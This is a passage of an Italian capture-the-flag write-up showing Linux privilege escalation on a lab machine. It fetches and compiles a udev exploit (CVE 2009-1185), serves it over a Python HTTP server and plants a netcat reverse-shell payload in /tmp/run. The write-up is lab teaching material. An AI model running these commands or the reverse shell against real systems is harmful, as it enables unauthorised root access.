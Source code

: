 # PRIVESC

Avremo bisogno di intensificare i privilegi. Google la versione del sistema operativo - Linux 2.6.24 per vedere se è vulnerabile a eventuali exploit. Ho provato CVE 2016–5195 e CVE 2008–0600, ma non hanno funzionato.
Proviamo CVE 2009–1185. 
Scarica l'exploit da searchsploit.

```bash
┌──(root㉿kali)-[/home/kali/htb/devel]
└─# searchsploit -m 8572
```

Seguiamo le istruzione dell'exploit
```txt
 Usage:
 *
 *   Pass the PID of the udevd netlink socket (listed in /proc/net/netlink, 
 *   usually is the udevd PID minus 1) as argv[1].
 *
 *   The exploit will execute /tmp/run as root so throw whatever payload you 
 *   want in there.
```

compliamo l'exploit con il seguente comando:
```bash
gcc 8572.c -o 8572
```

Tiriamo su un server python per scaricare l'exploit sulla macchina target:
```basj
python3 -m http.server 9001
```

Sull macchina target creamio un file "Run" con il seguente contenuto 
```bash
nano run
"#!/bin/bash
nc -nv 10.10.14.21 4445 -e /bin/bash'
```

Vediamo il PID che ci serve come dicono le istruzioni con il comando
```bash
cat /proc/net/netlink
sk       Eth Pid    Groups   Rmem     Wmem     Dump     Locks
ddf3e800 0   0      00000000 0        0        00000000 2
dcc15400 4   0      00000000 0        0        00000000 2
dd34f800 7   0      00000000 0        0        00000000 2
dd83f600 9   0      00000000 0        0        00000000 2
dd848400 10  0      00000000 0        0        00000000 2
dd82e400 15  2731   00000001 0        0        00000000 2
ddf3ec00 15  0      00000000 0        0        00000000 2
ddf46800 16  0      00000000 0        0        00000000 2
df51d200 18  0      00000000 0        0        00000000 2
```
